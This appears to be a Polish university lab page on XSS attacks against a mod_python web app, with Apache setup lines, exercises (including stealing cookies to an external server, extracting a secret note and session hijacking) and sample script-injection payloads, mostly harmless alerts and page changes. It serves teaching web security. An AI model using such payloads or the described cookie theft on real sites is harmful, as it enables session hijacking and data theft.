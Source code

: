 # Cel

Celem jest zapoznanie z potencjalnymi błędami i zagrożeniami na które narażone są aplikacje internetowe. W czasie zajęć zostaną zaprezentowane przykładowe ataki XSS oraz sposoby naprawy aplikacji, aby była na nie odporna.

## Mod_python

Jedną z metod pozwalających na korzystanie z języka Python do tworzenia aplikacji internetowych jest wykorzystanie modułu Apache `mod_python`. Do realizacji zadań wystarczy jego uruchomienie, oraz konfiguracja poprzez dodanie kilku linii w konfiguracji serwera Apache dotyczącej określonego katalogu.
 
`AddHandler mod_python .py`  
`PythonHandler mod_python.publisher`  
`PythonDebug On`  

## Przykładowe zadania:

 1. Zmodyfikować prezentowany atak XSS, tak, aby przekazywał on skryptowi ciasteczka użytkownika i zapamiętywał je w pliku.  
 2. Zmodyfikować prezentowany atak XSS, tak, aby wydobywał on tajną notatkę użytkownika   
 3. Zmodyfikować ciastka przeglądarki tak, aby zostać zalogowanym przez użytkownika  
 4. zmiana tła strony,  
 5. automatyczne przełączenie na dowolną inną stronę,  
 6. wyświetlenie reklamy (obrazka zewnętrznego),  
 7. przesłanie cookie na zewnętrzny serwer,  
 8. zaproponuj poprawioną wersję skryptu.  


## Rozwiązanie: 
`<script>alert("ok")</script>`  

`<script>function a() { document.write("<img src='https://encrypted-tbn2.gstatic.com/images?q=tbn:ANd9GcQoDk2UuUIsnoLap528Ty9OW9T5NQCI4xXJXlfLSLW1hsvx90vGMA'></img><h1>Hello</h1>"); }; window.onload = a; alert("Alert.");</script>`  

`<script> var h = document.createElement("H1"); var t = document.createTextNode("Hello"); h.appendChild(t); document.body.appendChild(h); </script>`  

`<script>
var img = document.createElement("img");
img.src = "https://encrypted-tbn2.gstatic.com/images?q=tbn:ANd9GcQoDk2UuUIsnoLap528Ty9OW9T5NQCI4xXJXlfLSLW1hsvx90vGMA";
document.body.appendChild(img);
</script>`  

`<a onmouseover="alert(1)" href="#">read this!</a>`

`<script>

function kolor(kolor)
{
document.bgColor=kolor;
}; window.onload = kolor; alert("Alert.");</script>`  



